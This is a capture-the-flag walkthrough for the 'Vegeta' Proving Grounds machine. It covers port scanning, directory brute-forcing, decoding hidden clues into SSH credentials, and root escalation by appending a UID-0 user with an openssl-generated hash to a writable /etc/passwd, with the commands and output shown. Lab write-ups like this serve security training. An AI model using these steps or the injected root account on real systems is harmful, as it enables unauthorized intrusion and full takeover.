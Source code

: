 ```yaml
---
categories: [Proving Grounds Play]
tags: [cryptography, PrivEsc]
image:
  path: /Vulnhub-Files/img/Vegeta/front.jpg
  alt: Vegeta Proving Grounds Play Machine 🔥
---
```


Let’s find the IP Address first >>

![Arp Scan Results That will Tell the IP Address](/Vulnhub-Files/img/Vegeta/Untitled.png)

```bash
IP : 10.0.2.56
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Vegita]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.56
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-17 11:57 IST
Nmap scan report for 10.0.2.56
Host is up (0.00050s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1f3130673f08302e6daee3209ebd6bba (RSA)
|   256 7d8855a86f56c805a47382dcd8db4759 (ECDSA)
|_  256 ccdede4e84a891f51ad6d2a62e9e1ce0 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:98:50:DA (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%201.png)

Lets see the Directory Traversal files —>

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%202.png)

Lets got to this file →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%203.png)

Lets decode this base64 encoded in readable form →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%204.png)

Now lets see this data.png file and decode it further since it is qrcode so →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%205.png)

Now I got a string → `Password : topshellv` →

But on further enumeration I find this password as a rabbit hole so lets dig in further through directory traversal with rockyou.txt file →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%206.png)

Now I got a directory named as `/bulma/` →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%207.png)

Now I got a audio file so lets decode it with morse code decoder →

[https://morsecode.world/international/decoder/audio-decoder-adaptive.html](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%208.png)

From decoder I got the credentials →

```bash
U S E R : T R U N K S  
P A S S W O R D : U $ 3 R
```

Now lets dig into the ssh shell →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Vegeta]
└─$ ssh trunks@10.0.2.56
trunks@10.0.2.56s password: 
Linux Vegeta 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jun 28 21:16:00 2020 from 192.168.43.72
trunks@Vegeta:~$ whoami
trunks
trunks@Vegeta:~$
```

Now lets the file permissions →

![Untitled](/Vulnhub-Files/img/Vegeta/Untitled%209.png)

Since this file can be modifed as trunks too so lets go and add a new user with root privileges →

First we need to choose a password, salt it and hash the result. openssl to the rescue.

Flags:

- -`1` what hashing algorithm to use. In our use case it doesnt matter, therefore we use MD5 which should be avoided in real world PT as it is not secure.
- -`salt salt` string to use as salt. I choose the string salt
- `password` clear text password we would like to use.

```bash
$ openssl passwd -1 -salt salt password
$1$salt$qJH7.N4xYta3aEG/dfqo/0
```

we need to add some data in order for it to be aligned with the `/etc/passwd` format. This is the final result:

```bash
shiv:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash
```

I named the user `shiv`. now lets write into the `/etc/passwd` file with nano →

```bash
trunks@Vegeta:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
trunks:x:1000:1000:trunks,,,:/home/trunks:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
trunks@Vegeta:~$ nano /etc/passwd
trunks@Vegeta:~$ su shiv
Password: 
root@Vegeta:/home/trunks# whoami
root
root@Vegeta:/home/trunks# cd ~
root@Vegeta:~# ls -al
total 32
drwx------  3 root root 4096 Jun 28  2020 .
drwxr-xr-x 18 root root 4096 Jun 28  2020 ..
-rw-------  1 root root  186 Jun 28  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Jun 28  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root 1379 Jun 28  2020 root.txt
-rw-------  1 root root 1827 Jun 28  2020 .viminfo
root@Vegeta:~# cat root.txt

                               ,   ,'|
                             ,/|.-'   \.
                          .-'  '       |.
                    ,  .-'              |
                   /|,'                 |'
                  / '                    |  ,
                 /                       ,'/
              .  |          _              /
               \`' .-.    ,' `.           |
                \ /   \ /      \          /
                 \|    V        |        |  ,
                  (           ) /.--.   ''"/
                  "b.`. ,' _.ee'' 6)|   ,-'
                    \"= --""  )   ' /.-'
                     \ / `---"   ."|'
  V E G I I T A       \"..-    .'  |.
                       `-__..-','   |
                     _.) ' .-'/    /\.
               .--'/----..--------. _.-""-.
            .-')   \.   /     _..-'     _.-'--.
           / -'/      """""""""         ,'-.   . `.
          | ' /                        /    `   `. \
          |   |                        |         | |
           \ .'\                       |     \     |
          / '  | ,'               . -  \`.    |  / /
         / /   | |                      `/"--. -' /\
        | |     \ \                     /     \     |
 	 | \      | \                  .-|      |    |'

Hurray you got root

Share your screenshot in telegram : https://t.me/joinchat/MnPu-h3Jg4CrUSCXJpegNw

root@Vegeta:~#
```